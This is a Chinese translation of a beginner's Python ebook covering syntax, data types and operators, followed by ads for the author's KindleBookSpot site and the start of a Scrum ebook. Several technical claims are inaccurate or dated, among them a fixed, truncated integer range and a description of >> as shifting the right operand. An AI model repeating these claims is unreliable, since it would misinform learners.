在检查错误和 bug 方面，所使用的编程语言易于阅读和理解至关重要。如果编程语言过于复杂，你可能在编码和检查程序时会遇到困难。使用 Python，代码更容易阅读和编写；因此，你可以轻松解释代码并进行必要的更改。

此外，Python 还有许多其他用途。它非常适合基于浏览器的脚本应用程序、创建出色的用户界面和粗略的应用程序示例、与数据库交互、处理 XML 以及设计数学、工程和科学应用程序。


## Python 与 C#、Java 和 Perl 的比较

你可能会发现将编程语言相互比较是一项主观任务。
通常，它们的差异只是个人喜好的问题。
尽管如此，有时此类比较也会得到科学数据的支持。
不管怎样，你必须记住并不存在一种包罗万象的编程语言。
作为程序员，你只需要找到最适合你的目标或需求的一种。

## C#

如果你有 Java 背景，你可能会注意到 C# 和 Java 非常相似。
再次强调，与 Java 相比，C# 仍有其自身的优缺点。
微软声称开发 C# 的主要目标是生产出 C 和 C++ 的更好版本。
然而，与 C# 相比，Python 具有更好的科学和工程应用以及更好的多平台支持。
在使用 C、C++ 和 Java 方面，它更具可扩展性。
它更容易学习和理解，并且允许使用各种计算机环境。
它也有更简洁的代码。

## Java

程序员认为 Java 是一种一站式编程语言。
多年来，他们一直在寻找一种可以在任何地方运行和编写的东西，而他们找到了 Java，它可以在不同的平台和计算机环境中表现良好。
话虽如此，Python 也是一种一站式编程语言。
它与 Java 非常相似，只是代码更简洁，更容易学习和理解。
它的开发速度快得多，并且具有改进的数据框或变量，可以存储在运行应用程序时有用的不同数据类型。

## PERL

PERL 的全称是 Practical Extraction and Report Language（实用提取和报告语言）。
它是一种适合从另一个数据库获取和处理数据的编程语言。
相比之下，Python 比 PERL 更好，因为它更易于阅读、实现、学习和理解。
它具有更好的 Java 集成和数据保护。
它也具有更少的平台特定偏见。

## 为什么 Python 对初学者来说是理想的？

如果你刚开始编程，你可能想考虑 Python。
它对初学者来说是理想的，因为它具有一致且简单的语法和庞大的标准库，可以让你完成多个项目。
所涉及的作业不仅限于通常的四功能计算器和支票平衡程序。

当你习惯用 Python 编写程序时，你会意识到制作逼真的应用程序其实很容易。
交互式解释器也允许你测试语言特性。
在 Python 中，你可以专注于基本的编程技能，例如编程分解和数据类型设计，以及包括过程和循环在内的基本概念。

由于 Python 涉及多个库和系统调用的使用，你可以开发具有易于编程界面的应用程序。
你还可以完成应用程序编程接口（API）所需的任务。

如果你以前从未使用过任何其他编程语言，不用担心。
即使没有任何编程知识或经验的人也能轻松掌握 Python 编程语言的基础知识。

至于安装，Python 易于安装。
大多数 UNIX 和 Linux 发行版实际上在其软件包中包含了它。
如果你从惠普（HP）购买 Windows 电脑，你可以直接使用 Python，因为它已随系统预装。

为了让你更轻松，你应该学习如何使用文本编辑器以及集成开发环境（IDEs）。
阅读带有示例代码和程序的编程书籍也会有所帮助。

关于版权，Python 的开发者允许程序员对源代码随意处置，只要他们不忘记包含版权信息。
版权规则并不严格。
你甚至可以出售二进制和源代码形式的副本，以及涉及 Python 使用的产品。
但是，如果你想使用标志，请确保获得许可。

Python 非常稳定。
事实上，它足够稳定，可供常规使用。
你可以预期在六到十八个月内发布新版本。
开发人员发布错误修复版本，以确保新版本比以前的版本更好。

如果你想执行静态分析或搜索错误，可以使用 Pylint 或 PyChecker。
前者是一种工具，用于检查模块是否遵守编码标准，并允许自定义插件。
后者是一种静态分析工具，用于在源代码中查找错误。

所以现在你已经了解了编程语言的基础知识，你可能仍然会想知道 Python 是如何得名的。
Guido van Rossum 喜欢蟒蛇吗？
嗯，他实际上喜欢的是名为《蒙提·派森的飞行马戏团》的电视节目，而不是爬行动物。

在 Python 开发期间，他正在阅读该喜剧系列的剧本，并认为“Python”将是一个合适的名称，因为它简短、独特且具有恰到好处的神秘感。
事实上，在文档中允许引用该喜剧节目，而且实际上是鼓励的。

## 第 2 章：语法

Python 具有简单直接的语法。
它甚至鼓励程序员在不使用准备好的或样板代码的情况下编写程序。
print 指令实际上是最简单的指令。
它打印出行并包含换行符。
你可能会注意到在编程语言的新主要版本中，print 指令是不同的。

Python 2.0 是更常见的版本，而 Python 3.0 支持最新功能且语义更正确。
不管怎样，在 2.0 版本中，print 语句不被视为函数；因此，你可以在代码中不包含括号的情况下调用它。
另一方面，在 3.0 版本中，print 语句被视为函数；因此，如果你想调用它，就必须使用括号。

### 交互模式编程

你可以在不同的模式下执行程序。
如果你在不传递脚本文件作为参数的情况下调用解释器，你会得到以下内容：

```text
$ python
Python 2.4.3 (#1, Nov 11 2010, 13:34:43)
[GCC 4.1.2 20080704 (Red Hat 4.1.2 – 48)] on linux2
Type “help”, “copyright”, “credits” or “license” for more information.
>>>
```

当你看到此提示时，你可以输入所需文本然后按 Enter。
在本示例中，我们将使用“Monty Python and the Holy Grail”这几个词。

```python
>>> print “Monty Python and the Holy Grail”;
```

请注意，如果你使用的是较新版本的编程语言，你需要在 print 语句中使用开头和结尾的括号，如下所示：

```python
>>> print(“Monty Python and the Holy Grail”);
```

无论你使用哪个版本，如果运行上面显示的示例代码，你将得到以下输出：

```text
Monty Python and the Holy Grail
```

### 脚本模式编程

如果你使用脚本参数调用解释器，脚本将开始执行并继续运行直到完成。
完成后，解释器将不再处于活动状态。
请考虑以下示例。示例程序写在脚本中，并具有 .py 扩展名：

```python
print "Monty Python's Flying Circus";
```

如果你在 test.py 文件中输入上述源代码并作为以下方式运行

```
$ python test.py
```

你将获得以下输出：

Monty Python's Flying Circus

另一种执行脚本的方法是修改 .py 文件，例如：

```
#!/usr/bin/python

print "Monty Python's Flying Circus";
```

如果你作为以下方式运行

```
$ chmod +x test.py

$ ./test.py
```

你将得到以下输出：

Monty Python's Flying Circus

### 标识符

标识符基本上用于确定函数、变量、模块、类以及任何其他对象。
它以下划线（ _ ）或字母开头。
然后跟随数字、下划线、零或其他字母。
作为程序员，你可以随意使用任何字母或数字。
你可以使用大写和小写字母。

然而，你不能在标识符中使用标点符号和特殊字符，例如 @、$ 和 %。
此外，Python 是一种区分大小写的编程语言。
这意味着你在代码中使用大写和小写字母时必须小心。
例如，wendy、Wendy 和 WENDY 都是同一个名字，但在 Python 中却被视为三个不同的标识符。

### Python 中标识符的规则

编写 Python 程序时，你必须遵守以下几条规则：

- 类名必须始终以大写字符开头，而其余标识符必须以小写字符开头。
- 如果标识符以一个前导下划线开头，则为私有。
- 如果标识符以两个前导下划线开头，则为强私有。
- 如果标识符以两个尾随下划线结尾，则为语言定义的特殊名称。


## 保留字

请注意，有某些单词你不能用作常量、标识符名称或 Python 中的变量。所有关键字也都使用小写字母书写。以下是该编程语言中保留字的表格：

| and | assert | break | class | continue |
|---|---|---|---|---|
| def | del | elif | else | except |
| exec | finally | for | from | global |
| if | import | in | is | lambda |
| not | or | pass | print | raise |
| return | try | while | with | yield |

## 缩进和换行

在 Python 中，类定义和函数中用于表示代码块的括号是不存在的。同样，流程控制也不包括在内。如果你想表示此类代码块，你必须使用行缩进。你可以为空格进行调整，但也要确保对块中的所有语句进行缩进。为了帮助你进一步理解，请考虑以下示例代码：

```
if True:
    print " Correct "
else:
    print " Incorrect "
```

```
if True
    print " Input "
    print " Correct "
else:
    print " Input "
    print " False
```

运行第一个给出的示例会生成输出。然而运行第二个示例则会导致错误。为什么会这样？好吧，你必须记住，在 Python 中，块是通过用相同数量的空格缩进连续的行形成的。

缩进只是一种对语句进行分组的方式。程序员用它来代替代码块的大括号。制表符和空格都受支持，但标准缩进要求标准代码具有相似数量的空格。一般来说，使用四个空格。请看以下示例：

```
w = 1
```

```python
if w == 1 :
    # This shows an indentation with exactly four spaces
    print " w is 1 . "
```

## 缩进的误区

Python 缩进周围存在某些误区。以下是其中的一些：

- *源代码中每个地方都需要空白。*

实际上，你不必在所有源代码中使用空白。空白不一定是重要的，尽管缩进是重要的。正如你所学到的，这是语句最左侧部分的空白。在其他任何地方，空白并不那么重要，可以省略。你可以随意使用它，甚至在程序的任何地方插入任意空白或不包含任何内容的空行。

此外，缩进的确切数量其实并不重要，但嵌套块的相对缩进很重要。实际上，当你使用隐式或显式续行时，缩进级别并不被识别。例如，你可以将一个列表拆分到多行。缩进根本就不重要。请看以下示例：

```
foo = [
    'a string',
    'another string',
    'a short string'
]
print foo
```

如果你运行上面给出的代码，你将得到以下输出：

```
[ 'a string' , 'another string' , 'a short string' ]
```

这里是另一个示例：

```
bar = 'look at this example' \
    'of a long string' \
    'that is split' \
    'across multiple lines'
print bar
```

如果你运行上面给出的代码，你将得到以下输出：

```
look at this example of a long string that is split across multiple lines
```

- 你的程序中应使用某种缩进风格。

好吧，这一点既真也不真。你可以在一行上编写内部块而不缩进它。你可以使用以下“if 语句”的任何版本，因为它们都是有效的并且产生相同的输出：

```
if 1 + 1 == 2 :
    print "foo"
    print "bar"
    w = 99
```

```
if 1 + 1 == 2 :
    print "foo" ; print " bar " ; w = 99
```

```
if 1 + 1 == 2 : print " foo " ; print " bar " ; w = 99
```

作为程序员，你可能希望将代码块写在单独的行中，如第一个示例所示。然而，有时存在相似的 if 语句，你可以方便地在每一行上编写。

如果你决定将代码块写在单独的行上，那么你必须遵循缩进规则。你必须使封闭块的缩进比“if 语句”更多。

总之，除非你选择使程序结构更复杂，否则你将被迫遵守此规则在 Python 中。编程语言不允许使用虚假缩进来混淆程序结构。

请记住，在 Python 编程语言中，块由缩进来表示；因此，缩进在每个程序中都相同。代码格式的一致性使程序更易于阅读和理解。

- 在 Python 中不可能混合使用空格和制表符。

是的，这一点是真的，即使对于用 C 语言编写的程序也是如此。你不能安全地混合使用空格和制表符。即使对你的编译器来说并没有真正很大的区别，你也可能很难处理代码。例如，如果你将 C 源代码移动到具有不同制表位的一个编辑器中，引入错误会更容易。

再次记住，将空格和制表符混合用于缩进是不理想的。你可以使用单独的空格或制表符。不过，你可能希望完全避免使用制表符。毕竟，制表符的语义并不那么明确，并且可能在各种类型的编辑器和系统上显示不同。

制表符在复制和粘贴操作期间也经常被错误转换或破坏，以及每当源代码被插入到网页或任何其他类型的标记代码中时。

- 可以跳过缩进并使用关键字代替。

是的，你可以跳过使用缩进而只使用关键字。实际上，有一些程序员更喜欢使用 *endif* 而不是缩进来表示代码块的结束。

好吧，它并不是 Python 中被正式认可的关键字。编程语言的早期版本附带一个工具，该工具将使用关键字 *end* 的代码转换为正确的缩进并删除此类关键字。

这可以作为编译器的预处理器使用。然而，在编程语言的最近版本中，该工具已被删除，很可能是因为它并不经常使用。

- 编译器如何解析缩进？

解析实际上很简单且定义明确。一般来说，缩进级别的变化作为标记插入到流中。缩进级别使用词法分析器或标记生成器中的栈来存储。起初，栈只有一个值为 0 的值，它位于最左侧。

每次嵌套块开始时，一个新的缩进级别会被压入栈中。然后缩进标记被插入到流中，最终传递给解析器。一次连续出现多个缩进标记是不可能的。

如果看到缩进级别较小的行，值将从栈中弹出，直到其中一个位于顶部。这相当于新的缩进级别。如果找不到任何内容，则会生成语法错误。对于弹出的每个值，都有一个缩进结束标记。一次连续出现多个缩进结束标记是可能的。在每个源代码的末尾，会为栈中剩余的缩进级别生成缩进结束标记。这会一直持续到剩余值为 0 为止。

## 多行语句

当你结束一个语句时，你可以使用新行或续行符号（ \ ），如果想表示该行需要继续。为了帮助你进一步理解这个概念，请考虑以下示例：

```
total = first_item + \
    second_item + \
    third_item
```

当你编写包含在大括号、圆括号和方括号内的语句时，你无需使用续行符号。例如，如果你想显示一年中的月份，你可以简单地写：

```
year = [ 'January' , 'February' , 'March' , 'April' , 'May' , 'June' , 'July' , 'August' , 'September' , 'October' , 'November' , 'December' ]
```

你可以在单行上编写多个语句或创建多个组作为套件。谈到编写多个语句时，请记住分号（ ; ）的包含至关重要。分号允许你编写尽可能多的语句，只要它们不开始新的代码块。考虑以下示例：

```
import sys ; y = ' bar ' ; sys.stdout.write ( y + ' \n ' )
```

那么套件到底是什么呢？好吧，它们是由代码块组成的语句组。复合或复杂语句，如 if、while、def 和 class 需要一个套件和一个头行。

那么头行是什么呢？它们以关键字开始语句并以冒号（ : ）结束它们。此外，它们后面跟着一个或多个构成套件的行。考虑以下示例：

```
if expression :
    suite
```


```
elif expression:
    suite
else:
    suite
```

### 引号

作为程序员，在表示字符串字面量时，你可以使用单引号（' '）、双引号（" "）和三引号（''' 或 """）。不过，请确保在字符串的开头和结尾使用相同类型的引号。通常，三引号用于跨多行表示字符串。请看以下示例：

```
paragraph = """You are reading an example of a paragraph that consists multiple lines
and sentences. You are an excellent programmer."""
```

### 注释

关于注释，应使用井号（#）开始注释。但是，这个井号不应位于字符串字面量内。此外，它之后直到行尾的字符都应包含在注释中。在 Python 中，注释不会被解释器识别。为了帮助你进一步理解这个概念，请看以下示例：

```
#### This is the first comment
print "Monty Python's Flying Circus is a British sketch comedy series.";
#### This is the second comment
```

如果运行上面给出的示例，你将获得以下输出：

```
Monty Python's Flying Circus is a British sketch comedy series.
```

你也可以在表达式或语句之后编写另一条注释，如下所示：

```
name = "Wendy" # This is a sample comment
```

如果你想对多行进行注释，也可以这样做。例如：

```
#### This is a sample comment.
#### This one is also a comment.
#### This is another comment.
#### This comment is written by Wendy.
```

### 空行

这些行在 Python 编程语言中不被识别。话虽如此，它们非常像注释。它们包含空白字符甚至注释。在交互式解释器会话中，你必须使用空行来终止多行语句。

## 第 3 章：数据类型

在 Python 中，输入数据会按照不同类别进行分类。分类的主要目的是帮助像你这样的程序员更高效地处理信息。这些类别充当数据存储位置，你可以在运行 Python 平台时随时访问它们。

### 变量

变量包含专门分配给它们的值。如果你正在为应用程序编写复杂代码，可能希望将信息存储在这些变量中。不用担心，因为你可以随时在需要时访问它们。你甚至可以使用它们来确保从最终用户那里收集的信息保持安全可靠。

### 数值类型

在 Python 编程语言中，数字与你在代数中用来解题的数字不同。在数学中，在数字末尾加上 .0 实际上没有意义。它不会对其值产生任何影响。例如，3 和 3.0 是相同的。

然而在 Python 中，3 和 3.0 是不同的数字。程序处理它之前，它必须先经过某些数据处理方法。作为程序员，你必须了解不同的数值类型。

### 整数

所有整数值都属于整数。含有小数点的数字不是整数；因此，3 是整数，而 3.0 不是。Python 中的整数以数据类型 int 为特征。

注意整数有容量限制。如果尝试处理超出允许限制的值，就会产生错误。整数通常处理 -9,223,372,036,854 到 9,223,372,036,854 之间的数字。

int 变量具有一些有趣特性。例如，基数 2 只使用 0 和 1，基数 8 使用 0 到 7 的数字，基数 10 与十进制系统具有相似属性，基数 16 使用字母 A 到 F 以及数字 0 到 9 作为数位。

### 浮点值

在 Python 中，任何包含小数点的数字都被视为浮点值。小数点后的数字是否为 0 无关紧要。例如，3.0、1.5 和 11.4 都是浮点值。它们存储在 float 数据类型中。浮点值相对于整数的一个巨大优势是它们具有更大的存储空间；因此，它们能够存储非常小或非常大的值。

不过，你不应认为它们具有无限的存储空间。仍然存在限制。尽管如此，它们可以包含小至 ± 2.2250738585072014 × 10⁻³⁰⁸ 且大至 1.7976931348623157 × 10³⁰⁸ 的值。使用浮点值分配值有几种方法。首先，可以直接赋值。其次，可以使用科学计数法。请记住，负指数会产生等价的分数。

### 复数

这些数字由实数与虚数组合而成。通常，它们用于动态系统、量子力学、计算机图形学、电气工程和流体动力学。复数可以在 Python 及少数其他编程语言中处理。

### 布尔值

它们是两个常量对象 *True* 和 *False*。它们表示真值。在数值上下文中使用时，它们的作用相当于 0 和 1。如果某个值可以被解释为真值，你可以使用函数 *bool* 为布尔值赋值。

### 字符串

它们是用双引号连接起来的字符组。请考虑以下示例：

```
TheString = "Python got its name from a popular comedy show."
```

如上方示例代码所示，短语 *Python 得名于一档广受欢迎的喜剧节目。* 被赋值给变量 *TheString*。

计算机无法理解字母，只能理解数字。因此，当你编写程序时，Python 会根据代表其字母的数字来读取和解释它。例如，在美国信息交换标准代码（ASCII）中，数字 65 代表字母 A。因此，如果你输入

```
ord("A")
```

你将得到输出

```
65
```

因为计算机无法理解字母，所以必须将字符串转换为数字。你可以使用 *int* 或 *float* 来完成此操作。如果需要将数字转换为字符串，可以使用 *str*。

## 第 4 章：运算符

运算符会操作操作数的值。Python 编程语言中使用了七种运算符。以下表格展示了这些运算符，并简要说明其功能。

### 算术运算符

| 运算符 | 描述 |
| --- | --- |
| 加法 (`+`) | 它将值相加。 |
| 减法 (`-`) | 它从前一个操作数中减去第二个操作数。 |
| 乘法 (`*`) | 它将值相乘。 |
| 除法 (`/`) | 它将第一个操作数除以第二个操作数。 |
| 取模 (`%`) | 它将第一个操作数除以第二个操作数并返回余数 |
| 幂 (`**`) | 它对操作数执行指数计算。 |
| 向下取整除法 (`//`) | 它除以操作数，但去掉结果后的小数点。 |

### 比较运算符或关系运算符

| 运算符 | 描述 |
| --- | --- |
| `==` | 如果两个操作数的值相等，则条件为真。 |
| `!=` | 如果两个操作数的值不相等，则条件为真。 |
| `<>` | 如果两个操作数的值不相等，则条件为真。 |
| `>` | 如果左操作数的值大于右操作数的值，则条件为真。 |
| `<` | 如果左操作数的值小于右操作数的值，则条件为真。 |
| `>=` | 如果左操作数的值大于或等于右操作数的值，则条件为真。 |
| `<=` | 如果左操作数的值小于或等于右操作数的值，则条件为真。 |

### 赋值运算符

| 运算符 | 描述 |
| --- | --- |
| `=` | 它将值从右操作数赋给左操作数。 |
| `+=` 相加并赋值 | 它将右操作数加到左操作数，然后将结果赋给左操作数。 |
| `-=` 相减并赋值 | 它从左操作数中减去右操作数，然后将结果赋给左操作数。 |
| `*=` 相乘并赋值 | 它将左操作数与右操作数相乘，然后将结果赋给左操作数。 |
| `/=` 相除并赋值 | 它将左操作数除以右操作数，然后将结果赋给左操作数。 |
| `%=` 取模并赋值 | 它使用两个操作数求模，然后将结果赋给左操作数。 |
| `**=` 幂运算并赋值 | 它对操作数执行指数计算，然后将值赋给左操作数。 |
| `//=` 向下取整除法 | 它对操作数执行向下取整除法，并将值赋给左操作数。 |


## 按位运算符

| 运算符 | 描述 |
|---|---|
| & 二进制与 | 它仅在两个操作数中都存在时复制该位。 |
| \| 二进制或 | 它在任一操作数中存在时复制该位。 |
| ^ 二进制异或 | 它仅在位存在于一个操作数中但不同时存在于两个操作数中时复制该位。 |
| ~ 二进制按位取反 | 它翻转位。 |
| << 二进制左移 | 它根据右操作数指定的位数将左操作数的值向左移动。 |
| >> 二进制右移 | 它根据右操作数指定的位数将右操作数的值向右移动。 |

## 逻辑运算符

| 运算符 | 描述 |
|---|---|
| `and` 逻辑与 | 如果两个操作数都为真，则条件为真。 |
| `or` 逻辑或 | 如果操作数为非零，则条件为真。 |
| `not` 逻辑非 | 它反转操作数的逻辑状态。 |

## 成员运算符

| 运算符 | 描述 |
|---|---|
| `in` | 如果在特定序列中找到变量，则求值为真。否则，求值为假。 |
| `not in` | 如果在特定序列中找不到变量，则求值为真。否则，求值为假。 |

## 身份运算符

| 运算符 | 描述 |
|---|---|
| `is` | 如果运算符两侧的变量指向同一对象，则求值为真。否则，求值为假。 |
| `is not` | 如果运算符两侧的变量指向同一对象，则求值为假。否则，求值为真。 |

## 结论

再次感谢您下载本书！

希望本书能帮助您了解 Python 编程语言。

下一步是应用您从本书中学到的知识。

最后，如果您喜欢这本书，我想请您帮个忙：您能否在亚马逊上为本书留下评论？将不胜感激！

点击此处在亚马逊上为本书留下评论！

感谢您，祝好运！

## 奖励：免费获取我更多的书籍！

感谢您阅读我的书！希望您从中获得了极大的价值。为了感谢您，我将赠送您更多免费书籍以及与编程和技术相关的信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址！

如果您认真想要提升编程技能，您将获得的一切对您都有用。我将提供：

- 我更多的书籍
- 我如何在创纪录的时间内学习编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

版权所有 2014 年 ______________ - 保留所有权利。

本文件旨在就所涵盖的主题和问题提供准确可靠的信息。该出版物以出版商无需提供会计、官方许可或其他合格服务为前提出售。如果需要法律或专业建议，应咨询该专业领域的从业人员。

> 来自《原则宣言》，该宣言由美国律师协会委员会和出版商及协会委员会同等接受和批准。

在任何情况下，以电子或印刷格式复制、复制或传输本文件任何部分都是非法的。严禁录制本出版物，未经出版商书面许可，不得存储本文件。保留所有权利。

本文件中提供的信息被声明为真实且一致，任何因使用或滥用其中包含的任何政策、流程或指示而导致的疏忽或其他方面的任何责任，完全由接收读者承担。在任何情况下，出版商均不对因本文件中信息直接或间接造成的任何赔偿、损害或金钱损失承担任何法律责任或过错。

各作者拥有出版商未持有的所有版权。

本处信息仅供参考，且具有普遍性。信息的呈现不构成合同或任何类型的保证。

所使用的商标未经任何同意，商标的出版未经商标所有者许可或支持。本书中的所有商标和品牌仅用于说明目的，由其所有者拥有，与本文件无关。

## 奖励：免费获取我更多的视频和书籍！

感谢您阅读我的书！希望您从中获得了极大的价值。为了感谢您，我将赠送您更多免费视频、书籍以及与健康相关的信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址！

如果您认真想要改变饮食和健康，您将获得的一切对您都有用。我将提供：

- 我更多的书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果您还没有，请务必查看我的新网站，*KindleBookSpot.com*。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建该网站是因为我想给你们一个更简单的方式在一个地方找到最热门的折扣 Kindle 书籍。以下是我的网站的一些详细信息：

- 最畅销的免费 Kindle 书籍列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广您自己的书籍

该网站不仅面向读者，也是新晋作者在成为畅销书之前推广新书的地方。因此，如果您想推广自己的书籍，请查看我的网站，*KindleBookSpot.com*。

我希望该网站对您有用，我希望在那里见到您！

*订阅我们在 KindleBookSpot 的不断增长的社区，在最好的书籍打折和免费时收到通知。*

## Scrum 训练营

### 学习 Scrum 编程的基础知识

在 [KindleBookSpot.com](https://KindleBookSpot.com) 获取更多免费和特价书籍

## 目录

- 引言
- 第 1 章：Scrum 和敏捷开发
- 第 2 章：Scrum 框架
- 第 3 章：事件
- 第 4 章：制品
- 第 5 章：用户故事
- 第 6 章：估算
- 结论

## 引言

我感谢您并祝贺您下载了书籍“*在 2 周内学习 Scrum 编程的基础知识。*”

本书包含在短时间内掌握 Scrum 框架基础的经过验证的步骤和策略。

本电子书旨在教您 Scrum 框架中使用的核心思想、概念和技术。为了帮助您理解“Scrum”，本材料将解释“敏捷”开发和其他相关技术的基础知识。

阅读本书后，您将能够在完成编程任务时使用 Scrum。您只需 14 天即可成为一名高效的 Scrum 实践者。

再次感谢您下载本书，祝您阅读愉快！

## 第 1 章：Scrum 和敏捷开发

Scrum 是一种在“敏捷”开发模型中使用的 方法。在讨论 Scrum 到底是什么之前，让我们先定义 Agile。这样，您将了解 Scrum 方法的工作原理以及如何将其用于完成编程项目。

### 敏捷开发

基本上，敏捷是一种用于完成项目（例如软件产品）的重复性和增量式开发策略。该策略要求人们共同合作，以便快速完成项目。敏捷涉及时间盒的重复方法，并且要求对任何变化做出快速和灵活的响应。根据敏捷从业者的说法，该策略是一个理论大纲，并不指明团队应该做什么具体活动。

Scrum 是敏捷中使用的 方法之一，它定义了完成任何给定项目必须完成的技术和流程。

重要提示：敏捷及其方法（例如 Scrum）最初用于软件开发；因此，Scrum 不是编程语言或计算技术。它是一个开发框架，有助于人们快速高效地完成项目。然而，在本书中，您将学习如何在完成与编程相关的项目中使用 Scrum。

### 敏捷开发的主要原则

使用敏捷时，您应该记住以下原则：

- 专注于细节 – 密切关注项目的细节。这样，您可以获得出色的项目设计和技术卓越。
- 少即是多 – 敏捷开发框架强调简单性。在这里，您不必通过无关紧要的技术/活动来为项目增添色彩。以尽可能简单的方式解决与项目相关的问题。
- 沟通很重要 – 为了确保卓越的质量，开发人员（即从事项目的人员）必须与业务

人员（管理团队或客户）。

- 实现客户满意——一般而言，使用敏捷的人希望满足客户的需求。这些开发者利用持续流程尽早完成项目，并尽快交付给客户。
- 必须接受变化——敏捷实践者在任何项目工作中都必须欢迎变化（包括工作环境和/或项目需求方面的变化）。这意味着你必须观察与项目相关的所有变化，并做出必要的调整。
- 信任与激励——敏捷框架本质上是重复且复杂的；因此，它需要积极进取的人员。寻找值得信赖的人，因为不可靠的员工可能会毁掉你的项目。
- 灵活性是关键——团队必须能够适应不断变化的环境。如果你不能适应工作环境中的变化，就无法成为高效的敏捷实践者。
- 输出是衡量成功的真正标准——只有当你拥有可用的输出时，才能说自己成功了。如果没有满足客户要求的输出，简单性、生产力、成本效益以及所有“好东西”都毫无用处。

## 结论

无数公司已从敏捷开发实践中受益。这就是敏捷框架如今被应用于不同行业和项目（例如编程）的主要原因。

敏捷框架具有以下优势：

- 缩短交付时间
- 降低风险和不确定性
- 更好的ROI（即投资回报率），通过关注客户需求实现

## 第 2 章：Scrum 框架

### 什么是Scrum？

软件开发人员将Scrum定义为用于创建和改进复杂产品的框架。它不是一种生成新产品的途径或方法论，而是一个开发框架，你可以用它来实现不同的途径和方法论。Scrum可以展示你的开发和管理策略的优势与劣势，使你能够提高整体效率。

该框架涉及开发小组（称为Scrum团队）、事件、规则和工件。这些组件中的每一个都在Scrum框架的使用和成功中发挥着重要作用。

### Scrum框架所涉及的过程

使用Scrum时，你应该通过规定的事件来标准化流程。每个事件都是时间盒限定的，这意味着它有具体的截止期限。你将在后面的章节中了解更多关于“事件”的内容。

### Sprint

Sprint是一个通常以周为单位衡量的时间盒，是Scrum的核心。基本上，Sprint是一段时间，在这段时间内会生成一个产品增量。前一个Sprint一完成，新的Sprint就会开始。Sprint包含以下要素：

- Sprint规划——参与项目的人员将决定必须在Sprint内完成的任务。Scrum团队的每位成员都必须参与这项协作活动。
- 每日会议——Scrum团队需要制定每日计划并分享最新进展。为此，每个团队每天必须召开15分钟的会议。
- Sprint评审——该事件发生在Sprint结束时。在此，Scrum团队成员审查产品增量，并在必要时更新项目记录。
- Sprint回顾——该事件恰在下一次Sprint的规划阶段之前发生。在此，Scrum团队成员检查自己的表现并寻找改进方法。这使他们在下一次Sprint中能够取得更好的结果。

### Scrum团队的成员

Scrum团队包含三个主要角色，即：

- “ScrumMaster”（也写作“Scrum Master”）——此人充当团队领导者。ScrumMaster需要：
  - 确保Scrum框架及其产生的流程高效运行。
  - 识别并消除影响团队生产力的障碍。
  - 组织并主持重要会议。
- 产品负责人——此人的职责是最大化团队效率和产品价值。一般而言，产品负责人需要管理项目的待办列表。项目待办列表的管理包括以下内容：
  - 清晰表达项目待办列表中的事项
  - 有效安排项目待办列表事项以实现团队目标
  - 最大化团队绩效的整体价值
  - 确保项目待办列表清晰、透明且所有团队成员均可访问。此外，待办列表必须告知成员需要完成或改进的内容。
  - 确保每位成员都理解项目待办列表事项。

产品负责人可以亲自执行上述任务，也可以要求团队成员执行。无论如何，产品负责人对这些任务负有全部责任。

产品负责人只是一个人，而不是一个群体。此人可以在项目待办列表中表达他人的需求/期望。然而，待办列表中的每个事项都必须列在产品负责人名下。

整个团队必须尊重产品负责人的决定。团队成员应查看项目待办列表，以更多了解产品负责人的决策。

- 团队——该术语指的是除ScrumMaster和产品负责人之外的团队成员。一般而言，Scrum团队的“团队”部分必须能够自我组织并执行不同职能。该部分由测试人员、分析师、开发人员和设计师组成。根据所涉及的项目，可以添加其他成员（例如工程师和架构师）。

团队要高效运作，规模应大到足以完成任务，小到足以保持灵活性。团队的理想规模是五到九名成员（不包括ScrumMaster和产品负责人）。如果成员少于五人，人力可能不足以在指定的Sprint内完成项目。然而，如果成员超过九人，团队将需要过多的协调。

## 结论

Scrum是一个敏捷框架，它明确了角色、规则和任务以确保一致性。只要遵循Scrum开发的所有规则，你可以将其用于任何项目或组织。

## 第 3 章：事件

敏捷实践者将Scrum视为一组事件及其产生的“工件”。如前所述，Scrum使用时间盒限定的事件来管理项目。“时间盒限定”意味着每个事件都有预设的截止期限。这使Scrum团队成员能够了解他们在完成项目方面的整体进展。最重要的Scrum事件包括：

### Sprint

在此事件中，Scrum团队开发产品的可用增量。通常，一个Sprint为1个月或2周，并且这一时间段适用于项目中的所有Sprint。时间段的一致性很重要。如果团队成员需要适应不断变化的截止期限，那将是令人困惑且低效的。

### Sprint的目标

每个Sprint都有具体的目标。该目标告知团队成员增量的用途。团队在Sprint的规划阶段设定这一目标。产品负责人和团队其他成员共同设定并明确Sprint的范围。每当他们发现与项目相关的新情况时，也会对Sprint进行调整。

### Sprint规划

这一阶段让你能够设定必须在Sprint内完成的活动。规划阶段通常对于为期两周的Sprint持续四小时，对于为期一个月的Sprint持续八小时。ScrumMaster负责确保会议如期举行且所需成员到场。此外，ScrumMaster必须主持好会议，以确保讨论的效率和及时性。

通常，Sprint规划关注以下问题：

- 当前增量中应完成什么？
- 当前增量中能够完成什么？
- 整个团队如何实现Sprint的目标？

这一阶段需要以下输入：

- 项目待办列表
- 项目的最新增量
- Scrum团队的预估容量
- Scrum团队以往的绩效

整个团队将讨论必须在当前Sprint内开发的功能/特性。产品负责人应通过项目待办列表明确Sprint中最重要的部分。团队成员选择将纳入待办列表的事项，因为他们知道自己能在分配的时间盒内完成哪些工作。任务以协作方式完成，这种方法可最大程度地减少返工。

在决定要开发的功能后，团队必须决定如何将这些功能添加到项目中。为Sprint选择的待办事项及其实现策略被称为Sprint待办列表。

在规划阶段，对Sprint内要完成的任务进行估算。这些任务可能具有不同的大小和复杂度。一旦Sprint规划完成，项目就会被拆分为持续最多一整天的任务。这种方法有助于ScrumMaster分配任务和检查项目进度。如果Scrum团队成员发现自己任务过少（或过多），他们可以与ScrumMaster和产品负责人沟通，做出必要的调整。


团队成员也可以请其他人（即不属于当前 Scrum 团队的人员）在规划阶段提供帮助。非团队成员可以提供成本估算、技术建议或实用提示。

## 每日会议

这些会议持续 15 分钟。会议每天举行，用于了解前一天已完成的事项，并为当天制定计划。一些 Scrum 实践者将这些会议称为“站会”。

每日会议在同一地点、同一时间进行。这样，团队成员可以降低会议的复杂性，并专注于他们应该做的事情。

在会议期间，Scrum 团队的每位成员都必须回答以下问题：

